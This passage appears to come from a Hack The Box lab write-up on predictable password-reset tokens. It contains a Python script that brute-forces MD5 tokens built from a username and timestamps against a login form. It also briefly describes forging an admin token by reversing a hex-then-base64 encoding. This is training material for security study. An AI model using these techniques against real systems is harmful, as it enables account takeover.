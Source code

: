 ```python

username = "htbadmin"
fail_text = "Wrong token"

# loop from start_time to now. + 1 is needed because of how range() works
for x in range(start_time, end_time + 1):
    # get token md5
    md5_token = md5((username + str(x)).encode()).hexdigest()
    data = {
        "submit": "check",
        "token": md5_token
    }

    print("checking {} {}".format(str(x), md5_token))

    # send the request
    res = requests.post(url, data=data)

    # response text check
    if not fail_text in res.text:
        print(res.text)
        print("[*] Congratulations! raw reply printed before")
        exit()
```

in the other example we are given a long token that we can try different decodings of to find that it is simply a user-specific string converted into ASCII hex and then base64 

we can do the reverse of this string with the admin account to get a valid temp password: 

![](Images/Pasted%20image%2020240221134644.png)

